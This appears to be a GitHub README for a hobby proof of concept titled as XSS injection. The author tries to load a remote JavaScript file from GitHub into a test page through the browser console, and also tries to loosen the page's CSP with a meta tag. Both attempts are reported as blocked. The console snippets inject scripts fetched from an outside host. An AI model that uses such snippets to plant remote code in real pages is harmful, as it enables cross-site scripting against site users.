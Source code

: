 # xss-injection-test

This project is a prof-og-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget
We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>

## Code to inject
The goal is to inject the code of this file on the page:

```
https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js
```

# First try (Brave)
we execute in console:
```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

### Result:
```
VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
```

## Second try. Add dinamically CSP

We execute in console

```
function dynamicallyInsertCSP() {
        let metaElement = document.createElement("meta");
        metaElement.setAttribute("content", "default-src 'self' 'unsafe-inline' *.githubusercontent.com;")
        metaElement.setAttribute("http-equiv", "Content-Security-Policy");
        document.head.appendChild(metaElement);
};

dynamicallyInsertCSP();
```

And we check we have this tag at the HEAD:

```
<meta content="default-src 'self' 'unsafe-inline' *.githubusercontent.com;" http-equiv="Content-Security-Policy">
```

But when executing injection we get the same result
